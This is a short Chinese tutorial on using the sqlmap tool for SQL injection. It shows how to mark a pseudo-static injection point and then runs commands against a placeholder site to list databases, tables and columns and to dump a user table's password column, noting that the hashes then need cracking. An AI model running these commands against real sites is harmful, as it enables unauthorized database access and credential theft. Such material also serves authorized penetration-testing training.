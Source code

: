 # sqlmap使用方法

参考文章

1. [i春秋 羽翼SQLMAP系列课程  >  伪静态注入](https://www.ichunqiu.com/course/1629)

## 1. 基本语法

```
$ sqlmap -u 目标url
```

其中目标url一般是含有`?id=12`这种格式参数的url. 如果url中伪静态类型如`/id/12.html`, 需要手动标记注入点(使用`*`号), 如`/id/12*.html`. sqlmap会自动探测可注入部分.

## 2. 使用流程

首先查找数据库.

```
$ sqlmap -u http://www.example.com/user/id/12*.html --dbs
```

> 如果已经通过其他方式得知目标数据库类型, 可以通过`--dbms mysql`这种形式在命令行中指明, 能够让sqlmap进行更精确的注入.

如果能得到目标网站的数据库名, 可以使用`-D`参数指定数据库, 进一步获取该库中的所有表. 这里假设目标库名为`db_test`.

```
$ sqlmap -u http://www.example.com/user/id/12*.html -D db_test --tables
```

ok, 如果得到了`db_test`中的所有表, 最主要的目标应该放在其中可能存放认证数据的表上面. 这里假设为`test_user`. 我们首先获取其中的字段信息, 也就是表的描述.

```
$ sqlmap -u http://www.example.com/user/id/12*.html -D db_test -T test_user --columns
```

其中可能的字段为`username`, `password`等

```
$ sqlmap -u http://www.example.com/user/id/12*.html -D db_test -T test_user -C password --dump
```

分别获取用户名和密码信息, 不过密码值应该会是md5加密过的, 所以还需要进一步进行解密.